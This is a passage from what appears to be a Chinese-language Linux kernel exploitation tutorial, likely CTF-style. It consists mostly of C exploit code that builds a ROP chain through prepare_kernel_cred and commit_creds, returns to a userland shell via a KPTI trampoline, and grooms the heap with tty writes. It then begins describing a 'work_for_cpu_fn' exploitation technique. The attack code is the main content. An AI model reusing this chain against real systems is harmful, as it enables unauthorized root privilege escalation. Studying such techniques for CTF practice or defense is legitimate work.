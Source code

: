 ```c
    rop_data[i++] = 0;
    rop_data[i++] = pop_rdi_ret;
    rop_data[i++] = 0;
    rop_data[i++] = prepare_kernel_cred;
    rop_data[i++] = pop_rdx_ret;
    rop_data[i++] = pop_rdi_ret+1;
    rop_data[i++] = mov_rdi_rax_cmp_pop_rbp_ret;
    rop_data[i++] = 0;
    rop_data[i++] = commit_creds;

    rop_data[i++] = kpti_trampoline;
    rop_data[i++] = 0; // rdi
    rop_data[i++] = 0;
    rop_data[i++] = (size_t )shell;
    rop_data[i++] = user_cs;
    rop_data[i++] = user_rflags;
    rop_data[i++] = user_sp;
    rop_data[i++] = user_ss;

    note_write(tty_idx , tty_buf);
    note_write(fake_tty_op_idx , buf);
    note_write(rop_idx, rop);

    // getchar();
    // 0xffffffff8143f4e1

    for (int i = 0;i<0x80;i++)
        write(tty_fd[i] , buf , 114);

    // getchar();
    // 可以通过这种方法下断点来查看堆布局 pty_write

}
```

##### work_for_cpu_fn 函数利用法

此方法就简单很多了

```c
struct work_for_cpu {
    struct work_struct work;
    long (*fn)(void *);
    void *arg;
    long ret;
};
static void work_for_cpu_fn(struct work_struct *work)
{
    struct work_for_cpu *wfc = container_of(work, struct work_for_cpu, work);
    wfc->ret = wfc->fn(wfc->arg);
}

```
